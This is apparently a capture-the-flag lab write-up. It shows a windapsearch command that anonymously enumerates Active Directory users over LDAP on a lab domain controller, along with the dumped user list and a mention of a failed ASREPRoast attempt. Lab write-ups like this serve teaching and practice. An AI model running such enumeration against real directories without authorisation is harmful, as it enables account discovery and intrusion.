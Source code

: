After researching and reviewing the enumeration part of the `Cascade` box on Hack The Box, we discovered a tool called [winldapsearch](https://github.com/ropnop/windapsearch) that we could use to dump the users without needing credentials by using LDAP.

```
destiny@falcon:/tmp/windapsearch$ python3 windapsearch.py  -d baby.vl --dc-ip 10.10.95.143 --users  
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.95.143
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=baby,DC=vl
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      None
[+] Enumerating all AD users
[+]     Found 10 users: 

cn: Guest

cn: Jacqueline Barnett
userPrincipalName: Jacqueline.Barnett@baby.vl
cn: Ashley Webb
userPrincipalName: Ashley.Webb@baby.vl
cn: Hugh George
userPrincipalName: Hugh.George@baby.vl
cn: Leonard Dyer
userPrincipalName: Leonard.Dyer@baby.vl
cn: Connor Wilkinson
userPrincipalName: Connor.Wilkinson@baby.vl
cn: Joseph Hughes
userPrincipalName: Joseph.Hughes@baby.vl
cn: Kerry Wilson
userPrincipalName: Kerry.Wilson@baby.vl
cn: Teresa Bell
userPrincipalName: Teresa.Bell@baby.vl
cn: Caroline Robinson
userPrincipalName: Caroline.Robinson@baby.vl
```

*Filtered (users.txt) :*
```
Jacqueline.Barnett  
Ashley.Webb  
Hugh.George  
Leonard.Dyer  
Connor.Wilkinson  
Joseph.Hughes  
Kerry.Wilson  
Teresa.Bell  
Caroline.Robinson  
```

Tried an ASREPRoast attack but did not receive any user hashes.
